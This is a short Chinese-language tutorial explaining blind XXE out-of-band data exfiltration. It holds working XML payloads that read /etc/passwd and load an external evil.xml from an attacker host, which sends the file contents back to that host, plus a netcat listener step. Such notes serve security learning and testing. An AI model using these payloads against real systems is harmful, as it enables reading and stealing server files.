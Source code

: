 ```yaml
---
title: Blind XXE 原理
id: zhfly3593
---
```


### Blind XXE 原理

带外数据通道的建立是使用嵌套形式，利用外部实体中的URL发出访问，从而跟攻击者的服务器发生联系。

直接在内部实体定义中引用另一个实体的方法如下，但是这种方法行不通。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % param1 "file:///c:/1.txt">
<!ENTITY % param2 "http://127.0.0.1/?%param1">
%param2;
]> 
```

于是考虑内部实体嵌套的形式：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % param1 "file:///c:/1.txt">
<!ENTITY % param2 "<!ENTITY % param222 SYSTEM'http://127.0.0.1/?%param1;'>">
%param2;
]>
<root> 
```

但是这样做行不通，原因是不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。

![image](../img/19d3fbb8a644691eee18ff28c3f47bc8.png)

##### 解决方案是：

将嵌套的实体声明放入到一个外部文件中，这里一般是放在攻击者的服务器上，这样做可以规避错误。

如下：

payload

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % remote SYSTEM "http://192.168.100.1/evil.xml">
%remote;
%all;
]> 
```

【evil.xml】

```
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://192.168.100.1/?file=%file;'>"> 
```

nc -lvv port 监听即可获得请求回显内容